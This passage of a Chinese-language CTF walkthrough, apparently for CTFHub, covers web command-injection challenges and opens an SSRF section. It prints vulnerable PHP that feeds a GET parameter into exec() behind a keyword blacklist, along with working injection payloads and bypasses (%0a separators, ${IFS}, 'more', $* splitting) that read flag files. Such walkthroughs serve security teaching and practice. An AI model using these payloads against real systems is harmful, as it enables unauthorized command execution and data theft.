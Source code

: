 **解题思路**

``127.0.0.1;cat flag_345202625567.php``

### 综合过滤练习

**题目源码**
```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

**解题思路**

过滤了| & ; 空格 / cat flag ctfhub
```
空格用${IFS}代替

cat用more代替

命令分隔符用%0a代替

$*在shell命令执行下为空，可绕过flag
```

```bash
# 注意，%0a在get有效，在post需要抓包
127.0.0.1%0als
127.0.0.1%0acd${IFS}fl$*ag_is_here%0als
127.0.0.1%0acd${IFS}fl$*ag_is_here%0amore${IFS}fl$*ag_228862086112710.php
```

## SSRF

**概述**
```
通常情况下SSRF攻击的目标是外网无法访问的内网系统，也正因为请求是由服务端发起的，所以服务端能请求到与自身相连而与外网隔绝的内部系统。也就是说可以利用一个网络请求的服务，当作跳板进行攻击。
```
### 内网访问

**题目描述**
```
尝试访问位于127.0.0.1的flag.php吧
```
